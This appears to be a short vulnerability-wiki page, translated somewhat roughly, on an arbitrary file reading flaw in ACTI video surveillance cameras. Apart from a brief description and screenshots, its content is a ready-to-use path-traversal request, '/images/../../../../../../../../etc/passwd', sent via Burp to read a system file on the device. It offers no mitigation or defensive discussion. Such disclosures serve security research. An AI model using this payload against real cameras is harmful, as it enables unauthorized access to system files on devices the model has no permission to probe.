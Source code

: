 # ACTI video surveillance images any file reading vulnerability

## Vulnerability Description

ACTI Video Surveillance There is arbitrary file reading vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ACTI camera</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ac-1.png)



Use Burp to grab packets



```plain
/images/../../../../../../../../etc/passwd
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ac-2.png)